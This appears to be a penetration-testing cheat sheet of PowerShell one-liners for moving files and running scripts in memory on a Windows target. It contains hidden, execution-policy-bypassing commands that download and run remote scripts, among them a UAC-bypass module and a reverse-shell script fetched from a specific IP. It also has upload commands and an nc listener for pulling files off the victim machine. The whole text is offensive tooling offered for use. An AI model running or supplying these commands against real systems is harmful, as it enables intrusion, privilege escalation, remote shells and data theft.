 ## Start up WebServer

## Run script in memory:
'''ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'
'''

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://LocalIPAddress:PORT/FILE'))

=========================================

# Download File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')


=========================================

# Upload File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

---------------
# If you can't copy over SMB
## On Local Box
nc -lnvp 443 > Out.File
## On Windows Box
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>

=========================================

## Upgrade PSH to 64-bit shell
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')

C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')
